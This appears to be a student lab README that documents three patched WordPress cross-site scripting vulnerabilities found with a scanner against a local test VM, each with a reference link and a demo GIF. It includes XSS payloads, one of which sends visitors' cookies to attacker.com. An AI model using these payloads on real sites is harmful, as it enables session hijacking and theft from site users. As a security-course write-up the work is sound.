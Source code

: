 # Week-7-Project-WordPress-vs.-Kali


[!] Title: WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS) /n
    Reference: https://www.exploit-db.com/exploits/36844/
[i] Fixed in: 4.2.1
If triggered by a logged-in administrator, under default settings the attacker can leverage the vulnerability to 
execute arbitrary code on the server via the plugin and theme editors.
  <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px x
<img src="https://i.imgur.com/kKKLoZh.gif" width="800">


[!] Title: WordPress <= 4.2.3 - Widgets Title Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8131
[i] Fixed in: 4.2.4
Top 10 2013-A3-Cross-Site Scripting (XSS)
https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)
If the attacker could trick the admin to post this as a comment:
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi ?foo='+document.cookie</script>'.") + "'>";
we would get a working XSS exploit that would forward wpdistillery.vm visitors to attacker.com
<img src="https://i.imgur.com/3mrNRXU.gif" width="800">


[!] Title: WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
    Reference: https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html
This issue was patched in WordPress 4.7.3.
If the attacker could trick the admin to post this as a comment:
<embed src='https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'></embed>
we could get a stored XSS exploit.
<img src="https://i.imgur.com/msRn9YG.gif" width="800">

